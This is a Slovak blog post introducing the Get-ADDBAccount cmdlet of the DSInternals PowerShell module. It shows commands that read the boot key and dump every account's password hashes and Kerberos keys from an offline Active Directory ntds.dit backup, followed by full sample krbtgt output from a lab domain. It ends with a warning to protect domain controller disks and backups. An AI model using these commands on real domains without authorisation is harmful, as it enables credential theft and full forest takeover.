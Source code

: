 ﻿---
ref: dumping-ntds-dit-files
title: 'Vykrádanie hesiel zo zálohy Active&nbsp;Directory'
date: 2015-08-15T21:29:37+00:00
layout: post
lang: sk
permalink: /sk/vykradanie-hesiel-zo-zalohy-active-directory/
image: /assets/images/dbaccount.png
tags:
    - 'Active Directory'
    - PowerShell
    - Security
---

Nedávno som písal o&nbsp;príkaze [Get-ADReplAccount](/sk/vykradanie-hesiel-z-active-directory-na-dialku/), pomocou ktorého je&nbsp;možné vzdialene vytiahnuť heslá a&nbsp;iné citlivé informácie z&nbsp;doménového kontroléru. Tieto dáta sú na&nbsp;každom doménovom kontroléri uložené v&nbsp;súbore **ndts.dit** a&nbsp;odtiaľ sa&nbsp;dajú získať aj&nbsp;napriamo. Dokáže to&nbsp;napríklad nástroj [NTDSXtact](https://github.com/csababarta/ntdsxtract), ale&nbsp;ten je&nbsp;určený pre&nbsp;Linux, nemá moc jednoduché ovládanie a&nbsp;na&nbsp;väčších databázach je&nbsp;dosť pomalý. Preto som do&nbsp;svojho [PowerShell modulu DSInternals](/sk/na-stiahnutie/) pridal príkaz **Get-ADDBAccount**, ktorého použitie je&nbsp;hračka:

```powershell
# Z registrov najprv získame tzv. Boot Key, ktorým sú heslá zašifrované:
$key = Get-BootKey -SystemHivePath 'C:\IFM\registry\SYSTEM'

# Načítame databázu a dešifrujeme heslá všetkých používateľov:
Get-ADDBAccount -All -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 

# Môžeme vytiahnuť aj heslo konkrétneho účtu, na základe distinguishedName, objectGuid, objectSid či sAMAccountName:
Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=Adatum,DC=com' -DBPath 'C:\IFM\Active Directory\ntds.dit' -BootKey $key 
```

<!--more-->

Výstup vyzerá úplne rovnako ako v&nbsp;prípade príkazu [Get-ADReplAccount](/sk/vykradanie-hesiel-z-active-directory-na-dialku/):

```
DistinguishedName: CN=krbtgt,CN=Users,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-502
Guid: f58947a0-094b-4ae0-9c6a-a435c7d8eddb
SamAccountName: krbtgt
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: False
Deleted: False
LastLogon:
DisplayName:
GivenName:
Surname:
Description: Key Distribution Center Service Account
NTHash: 9b17bcfc3800df21baa6b8a4aeedb4fd
LMHash:
NTHashHistory:
  Hash 01: 9b17bcfc3800df21baa6b8a4aeedb4fd
  Hash 02: c9467e5fae14820500862d85c53747c1
LMHashHistory:
  Hash 01: 1a1d073fde1fca32c24f268fce835de2
  Hash 02: cc8019ecf6fdbcbe06849a9980804e8d
SupplementalCredentials:
  ClearText:
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    OldCredentials:
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
    Salt: ADATUM.COMkrbtgt
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 69b11bfec0eec2b278702bc7d9fbfda23e3789128b92c59955e69932a457533b
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: bcfcc7a65379d7914c2c341a74ca0e0e
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 809b0f1697dffe39bb87b2e3d79564dc8ef91b91bad2fc51abc444e42c7e88d9
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: c30fb9e17cd7503f980592a6864c8daa
        Iterations: 4096
      DES_CBC_MD5
        Key: cddf7308d6cd5d2a
        Iterations: 4096
    OlderCredentials:
    ServiceCredentials:
    Salt: ADATUM.COMkrbtgt
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: eee4408f94b35bb5dc7077747d9762a3
    Hash 02: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 03: 7b0b14e8f5cfa2de25d04d393c649bb7
    Hash 04: eee4408f94b35bb5dc7077747d9762a3
    Hash 05: 00be705a97c4a1ded7f7fc912ef70aec
    Hash 06: cf102efea5397a51edc9202b922682e5
    Hash 07: eee4408f94b35bb5dc7077747d9762a3
    Hash 08: 5737a1de1f94d3f6e0dbbe4e3f173036
    Hash 09: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 10: 973ff6673784ce0faa956d10952b0be0
    Hash 11: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 12: 9314bbcd0f0f8ab2d3879287e739f621
    Hash 13: decbd6b05ac2363ef7c772b42339fdab
    Hash 14: b04c5754a36b8edaac0dfd3c8b741d1a
    Hash 15: 71e248eae58d2f1f4b40baf412fde251
    Hash 16: 8f03fa2cf1cdbb300d0e0992fb5265e1
    Hash 17: 5032b686f9b0187115c5b56a4de89d1e
    Hash 18: eb804e4333521ee5e74241db4ecd7e5e
    Hash 19: c86f4816e80f0a590cb03f0b9aa8c04c
    Hash 20: 0e03a76194c6385754a1814384c99798
    Hash 21: db13be8eb45adad0984e5a68ea2dfe23
    Hash 22: db13be8eb45adad0984e5a68ea2dfe23
    Hash 23: 5b6bba9bae24a347108ad7267e1ac287
    Hash 24: e72cad8b0fc837d3e8de4ddc725eb81f
    Hash 25: c19dd7b576c43eec07ba475bd444f579
    Hash 26: 021c07151ece2de494402cf11f62a036
    Hash 27: d657b31bfcacb37443630759cc3a19bf
    Hash 28: 5d49708350e04b16ddc980a0c33c409b
    Hash 29: efe601100b7b4007fe3fa778499d5dda
```

Získané hashe hesiel sa&nbsp;dajú pomerne jednoducho využiť k&nbsp;ovládnutiu celého Active Directory forestu. Preto si&nbsp;dajte dobrý pozor na&nbsp;to,&nbsp;kto všetko má fyzický prístup k&nbsp;pevným diskom doménových kontrolérov, ich zálohám a&nbsp;v&nbsp;neposledom rade k&nbsp;VHD/VHDX/VMDK obrazom.
